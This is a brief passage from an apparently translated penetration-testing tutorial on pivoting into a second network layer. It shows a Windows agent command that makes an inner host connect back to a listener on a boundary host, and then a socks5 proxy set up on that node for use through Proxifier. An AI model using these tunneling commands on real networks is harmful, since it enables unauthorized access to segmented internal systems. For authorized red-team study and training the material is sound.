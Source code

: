 ![](img/28.png)

![](img/29.png)

#### Multi-level network environment

​ Keep the network environment in the previous section unchanged, turn on the listening port on the original node, select `1` mode, port is `10000`, and the Win2` host actively connects to the listening port of the boundary host:

```bash
windows_x64_agent.exe -c 10.37.129.5:10000 -s h3rmesk1t -reconnect 8
```

​ At this time, the attack opportunity has a newly added node. Select a new node and add the `socks5` proxy:

```bash
Back
Detail
use 1
socks 7778 admin admin
```

​ Then use `Proxifier` to add the corresponding proxy server and proxy rules (add two proxy respectively) to access the second layer network.
